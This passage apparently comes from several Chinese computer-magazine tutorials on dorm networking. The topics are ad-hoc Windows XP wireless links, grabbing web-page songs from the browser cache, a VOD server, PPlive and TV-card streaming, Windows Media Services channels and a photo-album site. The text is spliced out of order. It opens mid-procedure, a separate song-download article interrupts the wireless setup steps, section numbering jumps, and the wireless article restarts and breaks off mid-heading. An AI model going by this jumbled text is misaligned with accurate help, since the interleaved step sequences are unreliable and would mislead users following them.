接着右键单击 “无线网络” 图标，在右键菜单中选择 “查看可用的无线网络” 命令，在打开的 “无线网络连接” 对话框中单击 “更改高级设置”（如图20），此时打开 “无线网络连接” 对话框换到 “无线网络配置” 界面，单击 “高级” 按钮（如图21），打开 “高级选项” 界面，在 “要访问的网络” 选项中点选 “仅计算机到计算机”（如图22），确定并关闭 “无线网络连接” 对话框，这时上面的设置生效。

接着继续打开 “无线网络连接” 对话框，在 “无线网络配置” 页面，单击 “添加” 按钮，弹出 “无线网络属性” 在 “服务设置标志（SSID）” 栏中输入一个标志文字，你可以随意输入（如图23）。设置后确定退出，这样主机设置成功。

# # 网页歌曲找你没问题

很多朋友在浏览网页时，会意外听到一些自己喜欢的不错的歌曲，想下载下来，却很不幸地发现找遍整个页面也找不到这首歌的下载链接。那么怎么才能将这首歌“据为己有”呢？这里教大家三招，保证轻松搞定网页歌曲的下载。

◆文/TMG dzr

## 第一招：利用歌词搜索歌曲

第一步：仔细听这首歌的歌词，比如你听到了这样的歌词：“天正在等烟雨，而我在等你”，然后记下来，注意歌词要记准确，避免错别字的出现。

第二步：打开百度的网页，地址为：http://www.baidu.com/，在上边选择MP3选项，下边选择“歌词”选项，将你听到的歌词输入，单击“百度一下”按钮，弹出的页面就会显示出你搜索的结果，有这两句歌词的歌的名字是《青花瓷》。你先前听到后输入的歌词会以红色字体的形式出现在搜索出来的歌词正文里。

第三步：如想下载歌曲，在页面上方输入“青花瓷”，根据自己需要选择所需的音乐格式，如MP3格式，单击右侧的“百度一下”按钮进行搜索。弹出页面会显示出搜索结果，可以单击“试听”按钮，弹出页面会自动播放选中歌曲，听一下看看是不是你需要下载的那首歌，确定后，可以单击页面上方“歌曲出处”后面的地址下载歌曲。

第四步：单击后弹出一个对话框，单击“保存”按钮。此后又会弹出一个对话框，选择保存的位置，如“我的音乐”文件夹里，最后单击“保存”，你所需的音乐就会下载到你的电脑上指定位置了。

小提示：这个方法不是百分之百的管用，因为有时候由于你所搜索的是新歌或者是一些流行度比较低的歌曲，可能最终搜索不到你要的结果。不要急，下面再教你第二招。

## 第二招：利用属性对话框中的位置链接下载

第一步：找到你听到的歌曲所在的网页的播放器窗口，鼠标右键单击这个窗口，在弹出的菜单里选择“属性”选项，在弹出的对话框里“位置”后面的地址即为这首歌曲的下载地址，复制这个地址，并关闭对话框。

第二步：选择下载工具，比如FlashGet，打开软件，鼠标左键单击上方“文件”选项，在弹出菜单中选择“新建下载任务”选项，会弹出一个对话框，在“网址”后面粘贴刚才复制的歌曲的下载地址（通常对话框弹出后软件会自动将你先前复制的地址粘贴到该处），确定好下载的位置以及重命名后单击“确定”按钮，FlashGet会将你所需的歌曲下载到指定位置。

## 第三招：利用网页Cookie下载所需歌曲

上面两招是我们常用的招数，如果发现都不管用怎么办呢？没关系，还有最后一个“绝招”，肯定不会让你失望。利用网页Cookie下载的方法一般都能获得所需歌曲，因为网页播放的歌曲一定会在IE的临时文件夹里面留下痕迹，我们就利用这个原理来下载歌曲。

第一步：所在网页歌曲开始播放后，在该页面上方单击“工具”选项，在下拉菜单里选择“Internet选项”，在弹出窗口里找到“Internet临时文件项”，单击“设置”按钮，在弹出窗口里再单击“查看文件”按钮。

第二步：单击后发现打开了一个文件夹，单击上方的“类型”按钮，以使文件夹里的文件按照类型排序，方便查询，然后找到类似WMA、MP3或SWF文件，试听一下看看哪个是你要找的歌曲，找到后复制到你的音乐文件夹即可。

### 2.点对点连接

该电脑设置后，其他电脑的无线网卡无须进行任何设置。只要在无线网卡图标上，单击右键并选择“查看可用的无线网络”，系统会自动启动无线网卡的搜索功能，扫描周围网络，随后将搜索到的网络显示在“无线网络连接”窗口中（如图24），选中我们设置的SSID标示的网络，单击“连接”即可和服务器电脑进行连接了，至此点对点互联网络设置成功。

### 3.文件传输

无线网络设置成功后，我们需要确保在该网络中的电脑在同一IP段下，如果默认的IP地址不在同一网段下，我们可以手工自行设置，设置好后，我们就可以通过网上邻居或前面介绍的“WebFileShare”程序进行文件共享了，设置过程在此就不再赘述。

### 4.共享上网

通过上面的设置，虽然各个电脑能传输文件，但是不能共享上网，要想实现共享上网，我们还要对该电脑的本地连接进行共享设置。

首先确保主机通过本地连接已经连接入了互联网，随后打开该电脑的“控制面板→网络连接”，在“网络连接”对话框中右键单击“本地连接”图标，在弹出的右键菜单中选择“属性”命令，打开“本地连接属性”对话框，切换到“高级”标签项下。勾选“Internet连接共享”选项下面的“允许其他网络用户通过此电脑的Internet连接进行连接”复选框，随后在“家庭网络连接”菜单中选中“无线连接”。接着勾选下面的复选框，设置完成后退出即可。

通过上面的各项设置，我们会发现在局域网内实行资料共享，文件传输方便多了，这样会给同事在线办公带来事半功倍的效果。

如今在校大学生为了方便学习和娱乐都购置了电脑，这样晚上宿舍内一人抱着一台电脑上网、学习、游戏、聊天好不热闹！很多宿舍都是通过共享的方式上网，这样就组成了宿舍局域网。在这个局域网内，同学们除了能共享上网外，还能进行资源共享。可是如今的大学生喜欢创新，在局域网使用了一段时间后，很多同学便思考，在宿舍局域网内还能干什么？其实在局域网内除了进行资源共享外，还提供更多丰富的功能，下面我们就一起打造一个丰富多彩的宿舍局域网。

# 让寝室网上生活更多彩

◆文/千江有水

# 一、在宿舍内架个电影院

在宿舍内很多同学闲来无事总爱看一些精彩的大片，为了欣赏最新最流行的大片，这些影迷们经常在网上不停地下载。这样一来寝室内的局域网就慢了下来，给其它同学使用网络带来很多不便。而且有时间一些费了半天劲下载的电影其他同学电脑已经有了，这样浪费时间，又浪费了硬盘空间。如果这些同学们将自己下载的影片共享出来，一起搭建一个视频点播系统，这样同学们就不用每次都要到网上一一下载了。

在宿舍内架设VOD点播系统，我们需要准备一台服务器，如果宿舍内有台式机电脑，我们可以使用该电脑作为视频点播服务器，先将各个同学电脑上的视频文件传到该服务器上，随后再准备一款VOD点播软件。“美萍VOD点播系统”就是这样一款操作简单、方便快捷的VOD点播系统，其内置高效服务器引擎，采用多线程、多并发流处理技术。我们通过该软件可非常快速搭建视频点播系统。

## 1.快速配置

“美萍VOD点播系统”安装非常简单，我们只要在服务器电脑上运行安装程序后，一路回车即可。安装后我们先来进行相应的配置。打开程序主界面，单击工具栏中的“系统设置”按钮，在“系统设置”对话框中切换到“服务器设置”项中的“系统设置”界面，在“本服务器IP地址”中输入本机的IP地址，接着在端口项中显示服务器所占用的端口号，默认为6666，在此我们可以对端口号进行更改（如图1）。以后客户端就可以使用该IP地址和端口号访问VOD点播系统了。

## 2.添加影片

下面我们就可以将视频文件添加到点播系统中了，打开“美萍VOD点播系统”程序，我们看到程序默认提供了多个栏目，如果你对默认的分类不满意，可以将其删除，并根据自己的需要创建其它栏目。创建时，在左侧的栏目列表中单击右键选择“新加类”，随后弹出类别创建窗口，输入类别名称即可（如图2）。按照此方法我们可以在一个类别中创建多个子类别。

打开某个新创建的类别后，就可以添加视频文件了。在程序右侧窗口的空白处单击鼠标右键，选择“项目添加”，打开“项目添加”窗口，在“节目路径”中选择需要添加的电影文件，在节目名称中输入电影名称，随时根据需要输入节目导演、主演、节目简介等信息。这些信息将会显示在用户点播界面中。在“截图路径”中，可以在百度上搜索一张与该电影相关的图片，添加到该项中，这样方便用户点播时对电影进行大致了解（如图3）。设置后，单击“确定”按钮，该电影添加完成。

此外程序还提供了拖曳添加功能，这样我们将电脑中的多个电影文件直接拖曳到“美萍VOD点播系统”窗口中即可进行快速添加。

## 3.电影点播

通过上面的设置后，下面同学们就可以在自己的电脑上进行视频点播了，在用户电脑上的IE浏览器中输入VOD服务器IP地址端口号，回车后即可登录到VOD点播系统中，在此程序列出了所有添加的电影文件（图4）。如果想点播某个电影文件播放，在此单击某个电影名称，即可启动程序默认的播放器对该电影视频进行播放。

最近电视上的球赛连续不断，可是宿舍内没有电视，这下可急坏了这些球迷们，为了能看上球赛，这些球迷想出一个好的方法，通过网络电视或购置电视卡在电脑上看球赛！这样就不用再为错过精彩的赛事而郁闷了。

## 1. 共享PPlive，网络电视大家看

PPlive网络电视也提供了很多精彩球赛，很多同学为了看球都在自己的电脑上安装了PPlive软件，PPlive软件占用的资源太多，在局域网内，PPlive使用的太多了，总出现视频卡壳的现象，这样就给大家看球赛带来困难。为了能顺利看球赛，有同学提议，使用PPlive共享功能，这样只要在局域网内有一台电脑使用PPlive播放球赛，整个局域网的电脑就可以同时收看了，就不会出现网络堵塞的现象了。

### （1）设置PPlive共享

在PPlive界面中依次单击“工具→设置”打开“设置”对话框并切换到“局域网共享”界面（如图5），在该界面中勾选“共享媒体文件”复选框。随后在共享媒体文件保存的路径文本框中，程序默认媒体文件保存在C:\PROGRA~1\PPLive\MediaFile文件夹中，单击右侧的“浏览”按钮，选择其它的文件夹。在“媒体文件绑定IP地址”项中显示了当前主机的IP地址，设置后单击“确定”即可。



PPlive视频共享功能开启后，当我们在使用PPlive播放网络电视节目时，在我们刚刚设置好的共享文件夹中会自动生成一个扩展名为asx的视频列表文件（如图6）。PPlive退出后，该文件自动删除。

### （2）收看共享节目

开启了PPlive的共享功能后，宿舍内的其他用户就可以在局域网内通过网上邻居进行视频共享了。双击“网上邻居”，在此我们可以看到局域网内所有计算机名称。双击播放PPlive电视节目的电脑，在此可以看到一个“MediaFile”文件夹，双击该文件夹，我们可以看到该电脑上PPlive共享的视频文件。双击该视频文件，这时系统会使用默认的播放器播放该视频文件。怎么样，是不是挺方便的。



这样我们就可以一边收看一边下载网络电视节目了。在下载过程中我们可以根据需要随时停止下载进程。打开下载文件保存的文件夹，此时我们发现其中有一个名为“1.asf.td”的文件，将该文件改名为“1.asf”，随后双击该视频文件，呵呵，这时我们就可以使用Windows Media Player播放PPlive录制的电视节目了。

### （3）录制电视节目

宿舍内的所有用户除了能共享网络电视节目外，宿舍内的用户还能将共享的节目录制下来。首先用记事本打开“MediaFile”文件夹下的asx文件，在此找到“<Ref href="http://192.168.1.100:8888/1.asf"/>” （如图7）语句，


```
<Asx Version = "3.0">
<Entry>
<Ref href="http://192.168.1.100:8888/1.asf"/>
</Entry>
<Entry>
<Ref href="http://192.168.1.100:8888/2.asf"/>
</Entry>
<ref href="http://192.168.1.100:8888/1.asf"/>
</Asx>
```

将其中的http://192.168.1.100:8888/1.asf网址复制到Windows Media Player即可打开收看。录制网络节目时，我们只需将该网址添加到“快车”等下载工具中，程序会开始下载网络电视节目（如图8）。使用下载软件下载的流媒体文件和当前播放的视频文件内容同步。



## 2. 共享电视卡，电视节目人人看

除了使用PPlive共享电视节目外，同学们还可以利用共享电视卡的方法共同收看电视节目。首先在安装有电视卡的电脑上设置调好电视卡使其能正常收看电视节目，设置过程不再一一赘述！下面我们就看看如何在局域网内共享电视卡接收的电视节目。

在局域网内共享电视卡上的电视节目，我们可以使用微软提供的视频解码、广播软件“Windows Media编码器9.0”（Windows Media Encoder），它通过将接收到的电视卡上的信号进行编码并广播，然后客户端通过Windows Media Player连接到Windows Media编码器架设的服务器上来在线即时观看，从而达到了视频直播的目的。

### （1）创建直播系统

要想使用Windows Media编码器对电视卡接收的视频进行广播，我们需要对程序进行设置。启动安装好的Windows Media Encoder程序，第一次使用，弹出“新建会话”对话框。在“向导”界面中选中“广播实况事件”选项，单击“确定”按钮。弹出“新建会话向导”对话框，在“视频”项中选择电视卡程序，在“音频”设备列表中选择系统默认的声音驱动程序即可（如图9）。



单击“下一步”按钮，打开“广播方法”界面，在此我们选择在局域网内直播视频的方法，在此点选“自编码器拉传递（服务器或播放机初始化连接）”单选框（如图10），并单击“下一步”，在“广播连接”界面中，系统为用户提供了直播系统所占用的服务器端口，系统默认为8080，我们可以根据需要更改。



单击“下一步”按钮，进入到“编码选项”界面，在该界面我们可以对音频、视频的编码、比特率、帧速率、缓冲区大小等进行设置（如图11）。其中，在“视频”项中点选“电影内容视频（CBR）”选项，在“音频”项中点选“FM质量音频（CBR）”选项即可。



对于比特率来说设置得越大占用的带宽就越大，程序默认为282kbps，我们可以根据小区局域网的情况进行设置。

继续单击“下一步”按钮，按照提示一步步设置好即可，以上各项设置完成后，进入到“Windows Media 编码器”主界面。在“Windows Media 编码器”主界面对视频文件进行预览。

### （2）在局域网内进行直播

通过上面的设置，下面我们就可以使用“Windows Media 编码器”直播电视卡上接收的视频了。首先启动电视卡软件，并选择好准备广播的频道。在“Windows Media编码器”中，点选“开始编码”按钮，程序开始对采集到的视频文件进行广播。广播的过程中，根据我们的设置，将视频保存到指定的文件夹中。我们在“视频”窗口中的“显示”下拉菜单中选择“二者”，来预览输入、输出视频效果（如图12）。


### （3）客户端收看直播

通过上面的方法，在“Windows Media编码器”中，可以将采集到的电视卡上的视频文件进行广播。以后其他用户就可以在自己的电脑上收看了。客户端用户只要在自己的电脑上启动Windows Media Player播放器，单击“文件”→“打开URL”命令，在“打开URL”文本框中输入mms://192.168.1.100:8080（服务器地址和端口），“确定”后，即可使用Windows Media Player收看服务器端播放的电视节目了（如图13）。

## 二、宿舍电视台，正点开播

自从宿舍内架设了局域网，同学们总想让内网的生活更加丰富，这样可以让同学们多一些娱乐少一些无所事事，于是网管前思后想，决定架设一个网络电视台，这样同学们可以利用业余时间收看一些电视节目，感受一下家中的惬意生活。

目前架设网络视频节目的软件很多，由于局域网使用的服务器是Windows Server 2003操作系统，因此网管决定使用Windows Server 2003自带的Windows Media Services来架设网络电视台。默认情况Windows Server 2003系统没有安装Windows Media Services，使用时，需要用户通过控制面板手动安装。

既然是电视台，当然要由几个频道组成，因此同学们将视频文件进行相应的分类，其中包括精彩MV、韩剧、大片等等，并按列表划分为频道。

### 1. 创建第一个频道

首先来制作第一个频道，制作时首先单击“开始→管理工具→Windows Media Services”，打开Windows Media Services窗口。在左窗格中右键单击“发布点”选项，执行“添加发布点（向导）”快捷命令（如图14）。



进入“添加发布点向导”，在欢迎页中直接单击“下一步”按钮。在打开的“发布点名称”向导页中设置发布点的名称（譬如“PublishingTV”），并单击“下一步”按钮。在打开的“内容类型”向导页中，程序提供了多个选项，在此点选“目录中的文件”单选框（图15），单击“下一步”按钮，在打开的“发布点类型”界面程序提供了“广播发布点”和“点播发布点”两项，由于我们架设的网络电视台不允许用户自主点播，所以我们只能选择“广播发布点”选项。选择后单击“下一步”进入到“目录位置”对话框中（如图16），单击“浏览”按钮，打开“浏览”对话框，在该界面的“数据源”项中单击选择需要播放的视频文件所在的文件夹，随后单击下面的“选择目录”按钮即可。这样即可将选择的视频目录导入到程序的界面中。



| 发布点类型 | 描述 |
| :--- | :--- |
| **广播发布点** | 客户端共享播放体验；用于创建与观看电视节目类似的方案。使用广播发布点可以从编码器传递流。 |
| **点播发布点** | 用于创建每个客户端都可以对流进行控制（例如，快进）的方案。 |

接着单击“下一步”按钮，在“内容播放”项中选择“循环播放”或“无序播放”，随后单击“下一步”按钮，打开“单播日志记录”向导页，勾选“是，启用该发布点的日志记录”复选框，并单击“下一步”按钮。接着打开“发布点摘要”向导页，列出了该发布点的设置选项。确认无误后依次单击“下一步，完成”按钮完成发布点的创建。这样第一频道创建成功。

视频文件制作完成后，下面我们还要获取该套视频节目的播放地址，打开 Windows Media Services窗口，在左窗格中选中刚刚创建的发布点“PublishingTV”，然后在右窗格中切换至“公告”选项卡。在“连接到单播流”区域即可找到播放地址（如图17）。这个地址就是我们访问该频道的地址。频道制作完成后，下面我们按照上面的方法制作其他频道。制作完成后，各个频道的名称都将显示在Windows Media Services列表中，我们可以在每个发布点上单击右键来控制该频道播放或停止。

### 2. 网络电视台开播

网络电视台各个频道搭建完成后，下面将各个频道的地址链接到一个网页中，这样方便同学们快速打开。用户打开该页面后只要点击其中某个频道链接，即可启动Windows Media Player来收看该频道的电视节目，非常方便，也可以直接在Windows Media Player地址栏中输入发布点给出的播放地址进行收看。



## 八、搭建宿舍网络相册，共享美丽的瞬间

在大学中很多同学都有这种想法，就是将自己漂亮的照片传到网上，这样既可以方便管理又能让同学欣赏我们美丽的一面，真是一举两得。可是互联网上的网络硬盘又慢，空间又小，这给我们上传照片带来很多不便之处。为了实现宿舍内同学的愿望，宿舍长经过思考决定在宿舍内架设一个“网络相册”平台；这样同学们在休闲的时候可以登录到“网络相册”中欣赏这些照片了。

### 1. 网络相册的搭建

要搭建网络相册系统，首先在宿舍局域网内找一台电脑作为服务器，一般我们选择台式机。随后我们还要选择一款网络相册软件，“桃园网络相册管理系统”（以下简称网络相册）就是一个功能强大的“网络相册管理”软件，使用该程序可以在宿舍内轻松打造“桃源网络相册”平台。

“桃源网络相册”需要.NET Framework 2.0支持，架设该网络相册平台前，我们需要在服务器端安装.NET Framework 插件。

该“网络相册”系统基于.Net结构，因此我们需要对IIS进行设置。首先确保服务器系统中IIS已经安装。随后进入到“控制面板”，在“管理工具”中启动“Internet信息服务”，在“Internet信息服务”中依次展开“Internet信息服务”→“网站”，右键单击下面的“默认网站”，随后弹出一个下拉菜单，在此选择“属性”命令，打开“默认网站属性”对话框，

切换到“主目录”界面，在该界面的“本地路径”项中输入“桃源网络相册”程序的解压路径（如图18），如：E:\typhoto。随后切换到“文档”标签项下，单击添加按钮，在此我们添加该网络硬盘的首页文件default.aspx，添加后保存退出，其他项目保留默认设置即可。



设置成功后，我们需要对该网络相册进行测试，在本机的IE地址栏中输入http://127.0.0.1/，如果能打开网络相册首页，这说明网络相册平台已经搭建成功（如图19）。



### 2. 网络相册的使用

“桃源网络相册”搭建后，下面同学们就可以使用该相册管理照片了。

#### （1）注册用户

在“桃源网络相册”中上传照片，为了安全，首先需要用户注册自己的相册空间，用户可以通过单击首页右侧的“用户注册”，注册成功后，就可以使用网络空间上传照片了。

#### （2）创建相册

用户注册后，登录到用户界面，首先我们需要创建几个相册，这样不同类型的照片可上传到不同的相册中。创建时，单击左侧的“创建相册”，进入到相册创建界面（如图20），在此输入该相册的名称、分类、标签和相册简介等信息。随后在下面的“共享设置”中选择共享方式，系统提供了多种共享方式，在此根据需要进行设置。随后在“默认排序”项中选择相册的排列方式，单击确定即可创建成功。



#### （3）上传照片

相册创建完成后，我们就可以上传照片了。在左侧的项目列表中，单击“我的相册”，随后列出所有创建的相册，进入到需要上传照片的相册中单击“上传照片”，进入到照片上传界面，在此系统提供了“批量上传”和“网络图片下载”两种方式，上传本地照片时，我们选择“批量上传”并单击下面的“选择照片”按钮，将需要上传的照片导入到“上传照片”列表中，随后单击“上传”按钮，选中的照片即可上传。上传后的照片将以缩略图的形式显示在该相册中（如图21）。单击某个相片即可打开查看，在照片显示界面我们可以对照片进行修改、删除、复制、设置相册封面等操作。

#### （4）下载照片

要想将自己相册中的照片下载到本地电脑上，我们只需在照片的显示页面，选中该照片并单击右键，选“另存为”即可。此外，“桃源网络相册”提供了一个打包下载功能，这样我们可以快速将整个相册中的所有照片下载到本地。下载时，进入到相册界面，单击“相册信息”下面的“打包下载”，这样就可以将整个相册中的照片下载下来，非常方便。

#### （5）共享照片

照片上传后，根据我们的共享设置，我们可以对不同用户进行共享。查看其他用户的共享照片时，单击相册空间上方的“共享相册”，进入到相册共享界面，在此我们可以查看所有用户的共享的照片。怎么样，是不是挺方便的。

在宿舍内架设了“网络相册”平台，你是不是感受到了在线管理和共享照片的乐趣。

通过上面的几项设置，宿舍内的局域网是不是丰富多了，这样同学们再也不感觉无聊了。有兴趣不妨试试吧。



# 宿舍无线局域网搭建方案全接触

◆文/千江有水

## 一、搭建无线局域网

在组建宿舍无线局域网时，一般情况下我们需要将无线路由器与ADSL Modem设备进行连接，搭建思路和“搭建通过ADSL实现共享上网的有线局域网”相似，但是在该无线网络中无需网线，我们使用无线网卡和无线路由器的无线互联。现在配置的无线路由器都配置了四个网线端口，如果宿舍内有台式电脑，这时可使用网线和电脑连接，实现台式电脑和无线网络并行（如图1）。



### 1. 无线设备

无线路由器：无线宽带路由器可以当做有线宽带路由器使用，实现路由、NAT、DHCP、打印服务器等功能。其内置有简单的虚拟拨号软件，可以存储用户名和密码拨号上网，可以实现为拨号接入Internet的ADSL等提供自动拨号功能，而无需手动拨号或占用一台电脑做服务器使用。此外，一般的无线AP和无线路由器都提供了一个10/100M WAN 端口和四个10/100M自适应LAN端口，这样方便用网线与台式电脑连接。

无线网卡：目前很多笔记本电脑都内置了无线网卡，如果你的笔记本电脑没有内置无线网卡，可以自购一块无线网卡。目前常见的无线网卡分为11Mbps、54Mbps以及108Mbps三种传输速率，这三种传输速率分别属于不同的无线网络传输标准。同时，还要考虑到无线网卡的接口类型和价格等因素。

### 2. 硬件连接

首先按照上面的方法将无线路由器和ADSL MODEM进行连接。随后将无线网卡正确地安装到笔记本电脑上，启动无线网络连接即可。

### 3. 配置无线路由器

在使用无线网络前，我们先对无线路由器进行相应设置。首次对无线路由器进行设置时，需要通过本地连接进行设置。首先使用一根网线将笔记本电脑的网线接口和无线路由器的网线接口连接，随后将笔记本电脑的IP地址进行配置。配置方法和前面一样。

首先在刚刚设置好IP地址的电脑上启动IE，在地址栏中键入路由器默认IP地址，如：http://192.168.1.1，回车后弹出一个用户登录界面。输入用户名和密码即可登录到配置界面。

> **小提示**
> 不同的路由器提供的登录密码不一样，设置时我们可以根据路由器说明书中提供的用户名和密码进行登录设置。

#### （1）设置虚拟拨号

首先进入到“基本设置”页面（如图2），在“主机名”和“域名”处输入电信网络服务器地址。在“IP地址”处输入192.168.1.1，并在下面输入好“子网掩码”。在“WAN口连接类型”项中，程序一般提供自动获取IP、静态IP、PPPoE、

PPTP四种连接方式，ADSL宽带一般使用PPPoE拨号方式，因此我们选择该拨号方式即可。随后在用户名处输入我们绑定宽带的电话号码，并输入拨号密码，“服务器”项中输入本地的DNS服务器地址。设置后点选“按需连接”单选项，随后在后面的“自动断线等待时间X分”中输入断线后等待的时间，单击“应用”按钮，即可让该路由器进行自动拨号。

### （2）开启无线功能

要想让无线路由器实现无线网络功能，我们还要对其进行设置，在“基本设置”页面找到“无线设置”选项（如图3），首先在该项中点选“允许”单选项（一般路由器该项默认为开启状态），随后在下面的“SSID”文本框中输入该无线网络服务设置标识，如“Wireless”，该标识不能超过32位字符。在“SSID广播”项中选择是否使用SSID广播方式，禁用该广播方式可以防止无线路由广播SSID的网络名称，从而防止SSID广播泄密。



> **小知识：**

SSID是无线网络服务器的设备表示，它可以区分不同的无线网络工作组。任何无线接入设备或其他无线网络设备都是以SSID为无线网络服务设置标识，这样当无线网卡等网络设备要想与某一特定的无线网络工作组进行连接，就必须使用与该工作组相同的SSID。

接下来在“频道”项中选择该无线网络使用的频道，程序提供了1～13个频道供我们选择，在此可以根据需要进行选择。随后单击“应用”按钮，这样我们就可以通过无线网卡实现无线上网了。以上设置后，单击“应用”按钮，再单击左侧的“注销”按钮即可退出设置界面，打开路由功能。

> **小提示：**

有的无线路由器默认状态没有开启无线功能，这样即便无线网络正确设置后，仍然不能访问路由器，在这种情况下我们可以使用网线连接网卡的电脑登录路由器，设置路由功能和无线功能。

## 4.配置无线网卡网络协议

无线网卡安装后，我们还要对无线网卡进行配置（WAN网卡设置与无线网卡设置步骤一样，在此只介绍一种）。配置时，在“控制面板”中双击“网络连接”，打开“网络连接”对话框，在此我们看到该窗口中多出了一个无线连接图标（如图4），这就是无线网卡的连接图标。在该图标上单击右键，选择“属性”命令，打开“连接属性”对话框（如图5），在该对话框中的“常规”项中按照上面介绍的方法设置好网络协议。





Windows XP SP2中设置无线网络时，首先安装好无线网卡，在“控制面板”中双击“无线网络安装向导”，打开“无线网络安装向导”窗口，在此单击“下一步”进入“为您的无线网络创建名称”窗口（如图6），在该窗口的“网络名”项中输入该无线网络的SSID名称（该名称要和无线路由器中的SSID名称相同）。随后在下面的密钥分配项中我们可以根据需要选择密钥分配的方式（如图7），在此可以选择“自动分配网络密钥”，单击“下一步”按钮，进入到“您想如何设置网络”窗口，在该窗口中程序提供了“使用USB闪存驱动器”和“手工设置网络”两个设置方法。如果你需要将多台计算机添加网络设置，建议选择“使用USB闪存驱动器”方法来设置网络。如果只想对该台计算机进行网络设置，可选择后者。随后单击“下一步”，这时系统会自动对无线网络进行设置，随后单击“完成”。





“完成”按钮即可退出网络设置界面。

无线网卡设置成功后，此时我们看到任务栏中的无线网卡图标已经正常显示了，在该图标上单击右键，在弹出的右键菜单中选择“查找可用无线网络”，在打开的“选择无线连接”窗口中，选择搜索的无线网络，随后单击“连接”即可（如图8）。

通过上面的设置，宿舍无线局域网搭建成功，只要无线路由器和ADSL MODEM处在开启状态，我们就可以抱着笔记本上网了。



## 二、搭建点对点无线互联网络

上面介绍的无线网络相对比较固定，现在很多情况下需要临时组网，如几台笔记本为了共享文件，需要临时组建成一个局域网。这时使用上面的方法显得有些笨拙了，其实我们还有一个非常灵活的组网方式，就是使用无线网卡的点对点互联功能，这样我们只要有两块以上的无线网卡就能快速自建一个无线互联网络，在这个网络中如果有一台电脑能上网，其他电脑也能共享上网，既方便又灵活。

### 1.通过XP下自带的无线设置向导组网

进行多机互联时，我们可以通过Windows XP自带的无线设置向导实现无线互联。下面我们就以两台笔记本为例来了解一下操作过程。

- （1）互联设置

首先我们从能够使用“本地连接”连接到互联网的电脑开始设置，为了方便叙述，我们将该电脑称为主机。通过上面的方法启用了无线网卡后，在系统任务中会多出一个无线网卡的图标，无线连接图标将显示一个红色的“X”，表示尚未连接。右键单击该图标，在弹出的右键菜单中选择“查看可用的无线网络”命令（如图9）。打开一个“无线网络连接”对话框。随后在该列表中单击左侧的“更改高级设置”，打开“无线网络连接属性”对话框，切换到“无线网络配置”界面（如图10）。单击右下角的“高级”按钮，打开“高级”选项界面（如图11），在“要访问的网络”选项中







点选“仅计算机到计算机”，确定后退出。

在“无线网络配置”页面，单击“首选网络”下方的“添加”按钮，弹出“无线网络属性”，在“服务设置标志（SSID）”栏中输入一个标志，可以使用任何想要的名称，但是一定要使用该名称对所有电脑进行配置。如果你对该网络不想加密的话，将下面的“数据加密”设置为“已禁用”，单击“确定”按钮退出即可。其他电脑也按照该步骤进行操作。

通过上面的设置后，两台笔记本的无线网卡会自动搜索网络，我们可以看到无线网卡上的红色的“X”已经消失，这表示无线网卡对联成功。

- （2）文件共享设置

通过上面的设置，我们就通过无线网卡互联的方式组建成了一个无线局域网。这样用户间就可以在该无线网络内共享文件了。共享文件时，在指定的文件夹上单击右键，通过“共享和安全”命令，打开“共享”对话框，在此我们设置好共享权限，以后其他用户就可以通过网络邻居来查看我们的共享文件了。

- （3）共享连接设置

虽然无线网卡对联成功，但是另一台电脑还不能通过无线网卡访问网络，因为主机现在使用的是本地连接上网，我们需要对主机中的拨号连接或本地连接进行共享设置后，另一台电脑才能通过无线网络上网。

设置共享连接时，在主机上打开“控制面板”中的“网络连接”。在此右键选中“拨号连接”图标，选择“属性”，打开“拨号连接属性”对话框并切换到“高级”项下（如图12），在此勾选“允许其他网络用户通过此计算机的Internet连接来连接”复选框，随后在“家庭网络连接”菜单中选中“无线网络连接”。接着勾选下面的两个复选框。随后单击“设置”按钮，在“高级设置”界面勾选通过该连接用户可以



访问的网络服务。设置后退出即可。设置后主机上的“网络连接”中，“拨号连接”图标状态显示为共享和启用。客户机上的“网络连接”窗口多出一个网关，这个网关就是主机上的拨号连接。好了，通过上面的设置其他电脑就可以通过无线网卡访问Internet了。怎么样，是不是挺方便的。

## 2.通过Sonbuddy软件实现快速组网实现多机互联

如果你感觉使用Windows无线设置向导配置起来有些麻烦，还可以使用第三方软件来配置，Sonbuddy就是这样一款小工具，它是一个智能无线联网软件，它可将任何WIFI（802.11a/b/g）无线设备以最简便、最快捷的方式自动组成一个无线的网络，有了这样一个软件，不但能够快速实现无线互联，而且还能够通过软件本身来实现互传文件、访问共享资源、内网聊天，让用户操作更加方便。

- 软件名称: SONbuddy
- 使用版本: V1.4 简体中文轻量版
- 软件大小: 14.8MB
- 软件授权: 免费试用30天
- 下载地址: http://www.sonbuddy.com.cn/cn/download/download.asp

> > 试用时我们需要发邮件到support@sonbuddy.com.cn索取30天有效期的序列号，才能使用。

### (1) Sonbuddy配置

使用Sonbuddy组网时，首先将该软件安装到各个笔记本上，随后还要对该软件进行简单的配置。在联网的主机上启动Sonbuddy程序，弹出一个“Sonbuddy配置向导”界面，在此单击“下一步”按钮，打开一个“好友资料”窗口（如图13），在此我们可以创建自己的个人简介，这些简介将显示在对方的Sonbuddy程序界面中。其中包括名称、性别、年龄、电话、电子邮件等信息。随后在社区项目我们可以勾选需要在无线网络中共享的功能，在此我们可以根据需要选择。在个性图片中我们像在QQ中一样选择一个个性图片，单击个性图片文本框中的“导入自己的照片”，这样我们可以选择自己的照片做个性图片。



个人信息创建后，单击“下一步”，在“连接选项”界面中选中“无线网卡”连接，点选下面的“点对点模式”，并



勾选文本框中的“Sonbuddy”复选框（如图14）。

接着单击“下一步”按钮，在“偏好”界面中勾选“自动启动Sonbuddy”和“共享连接”复选框。设置完成后，单击“完成”按钮退出设置向导，进入到Sonbuddy程序主界面（如图15）。接着我们按照上面的操作对其他笔记本电脑进行配置。怎么样，Sonbuddy的配置过程是不是比Windows无线配置向导简单多了。



### (2) 共享上网

各个电脑上的Sonbuddy配置完成后，进入到程序的主界面，随即Sonbuddy开始对当前网络进行检测，此时我们发现任务栏中的无线网卡也处于搜索网络状态。Sonbuddy连接成功后，在主机正常上网的同时，其他客户机也可以通过无线网络共享上网了。

### (3) Sonbuddy超级功能

除了能对无线网络进行快速互联外，Sonbuddy还提供了很多超级、实用的功能。

#### ①文件共享更安全

